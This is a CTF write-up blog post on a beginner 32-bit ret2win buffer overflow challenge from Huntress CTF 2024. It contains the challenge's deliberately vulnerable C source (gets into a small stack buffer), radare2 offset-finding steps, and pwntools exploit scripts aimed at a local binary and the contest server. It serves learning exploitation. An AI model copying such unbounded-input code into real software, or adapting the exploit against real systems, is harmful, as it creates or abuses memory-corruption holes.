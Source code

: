 ```yaml
---
title: "Huntress CTF 2024"
pubDate: 2024-11-18
description: "This CTF was my first time actually playing real Binary Exploitation because team HCS wanted me to start learning, unfortunately there were a few issues with this one challenge I solved, but it pushed me on the right track for learning Binary Exploitation."
tags:
  - ctf
  - pwn
---
```



## Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

<PostFileDownload name="2024-huntress-babybufov.zip" />

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win) guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

![alt](../../images/2024/huntress-ctf-1.png)
